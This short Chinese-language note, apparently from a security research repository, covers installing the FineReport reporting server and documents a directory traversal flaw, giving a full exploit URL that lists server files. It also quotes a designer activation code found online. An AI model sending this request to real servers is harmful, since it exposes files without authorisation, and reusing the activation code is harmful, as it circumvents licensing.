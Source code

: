 # FineReport

官方文档： https://www.finereport.com/

官方帮助文档： https://help.finereport.com/

FineReport（帆软报表）的安装较为简单，直接双击`windows_x64_FineReport-CN.exe`，选择好安装目录后自动安装，安装完成后，自动跳转到`http://localhost:8075/WebReport/ReportServer`数据决策系统，第一次使用要求先配置管理员用户名和密码。

如果要使用设计器，可以从网上找一个激活码（如`设计器激活码：63e70b50-36c054361-9578-69936c1e9a57`），点击激活即可

## 架构分析

## 历史漏洞

## 已知漏洞
 - [1.目录遍历漏洞](#目录遍历漏洞)


|漏洞名称|访问路径|漏洞定位|
|:---:|:---:|:---:|
|目录漏洞|`op=fs_remote_design&cmd=design_list_file`|——|

# 目录遍历漏洞
```
http://localhost:8075/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../../&currentUserName=admin&currentUserId=1&isWebReport=true
```
页面上会列出当前目录下的文件
